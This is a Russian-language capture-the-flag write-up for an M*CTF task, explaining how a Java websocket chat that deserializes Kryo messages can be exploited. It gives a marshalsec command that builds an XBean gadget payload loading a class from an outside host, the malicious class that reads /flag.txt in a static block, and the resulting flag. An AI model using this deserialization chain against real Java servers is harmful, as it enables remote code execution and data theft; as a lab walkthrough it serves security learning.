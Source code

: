 # Chat

## Описание
Мы создали Официальный Чат M*CTF ©, в котором все цтферы могут делиться опытом. Прочитайте флаг из /flag.txt и отправьте нам, чтобы получить золотой цветочек возле имени пользователя.

Чтобы упростить задачу, вот список зависимостей с сервера:
```
dependencies {
    implementation 'org.springframework.boot:spring-boot-starter-websocket'
    compile group: 'com.esotericsoftware', name: 'kryo', version: '4.0.2'
    compile group: 'org.apache.xbean', name: 'xbean-naming', version: '4.17'
    compileOnly 'org.projectlombok:lombok'
    annotationProcessor 'org.projectlombok:lombok'
}
```

## Краткое описание уязвимости
Таск представляет собой клиент-серверный чат на java.
Сообщения передаются в виде объектов, сериализованных в формате kryo. 

Объект сериализуется с помощью writeObject, а не writeClassAndObject, поэтому можно передать не любой объект, а только ChatMessage.
 
Но из-за [стирания дженериков в рантайме](https://javarush.ru/groups/posts/2315-stiranie-tipov) в List внутри сообщения можно положить любой класс. 
В качестве гаджета используется Apache XBean (чтобы не перебирать все варианты, в описании таска был дан кусок build.gradle сервера), 
с помощью которого можно добиться загрузки класса из удаленного источника. При инициализации этого класса будет выполнен static блок, что даст атакующему RCE.

# Решение
## Исследование клиента
Дан клиент чата в формате jar приложения. При декомпиляции мы можем прочитать код и увидеть, что при отправке сообщения 
клиент создает List<ChatMessageComponent>, кладет его в ChatMessage, сериализует с помощью `Kryo#writeObject` и отправляет 
в вебсокет на `ws://chat.mctf.online`. При получении сообщений или ошибок они выводились на экран и в консоль.

## Сериализация

Многие уязвимости на сериализацию основаны на том, что отправить можно любой объект, а не только тот, который ожидает сервер. 
Но в данном случае используется `writeObject`, а не `writeClassAndObject`. Соответственно, 
на стороне сервера используется `readObject(..., ChatMessage.class)`, который не сможет прочитать другой класс.

На этом моменте нужно вспомнить про [стирание дженериков в java](https://javarush.ru/groups/posts/2315-stiranie-tipov). 
Мы можем передать любой класс в `List<ChatMessageComponent>`, если превратим его в `List<Object>`. Даже если сервер захочет 
получить компонент из списка и выбросит ошибку, до этого ему придется десериализовать этот класс.

## Подготовка эксплоита

Если загуглить `kryo deserialization vulnerability`, можно попасть на страницу 
[Java Deserialization Cheat Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet), где собрана подборка 
уязвимостей в библиотеках для сериализации в Java. Там в разделе `Payload generators` можно найти ссылку на 
[marshalsec](https://github.com/mbechler/marshalsec), который может сгенерировать payload за нас.

Единственная проблема - marshalsec выдает классы, которые должны приниматься `readClassAndObject`, а нам надо засунуть 
его в `ChatMessage#messages`. Для этого придется немного переписать marshalsec. Патч приведен в папке exploit.

Нам нужен эксплоит на XBean, а он есть только в классе KryoAltStrategy. Эксплоит работает таким образом: при десериализации класса 
он попытается создать ObjectFactory, которая находится в удаленном codebase. Если получится не ObjectFactory, то мы получим ошибку, 
но перед этим выполнится static блок, в который можно закинуть чтение файла и выброс исключения. Можно передать флаг и другими способами, 
например, открыть шелл.

Сгенерируем эксплоит:
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.KryoAltStrategy XBean http://serega6531.ru:8080/exploit.jar Exploit > exploit.kryo
```
Пример готового эксплоита лежит в папке exploit.
Код Exploit, который лежит в exploit.jar:
```
public class Exploit
{
    static {
        try {
            throw new RuntimeException(Files.readString(new File("/flag.txt").toPath()));
        }
        catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

После генерации эксплоита и открытия сервера на нужном порту (`python -m http.server 8080`), можно отправлять его и 
получать флаг в ответе. В exploit/ лежит модифицированный клиент для этих целей.

```
java.lang.RuntimeException: mctf{you_became_the_king_of_chat}
	at Exploit.<clinit>(Exploit.java:10)
```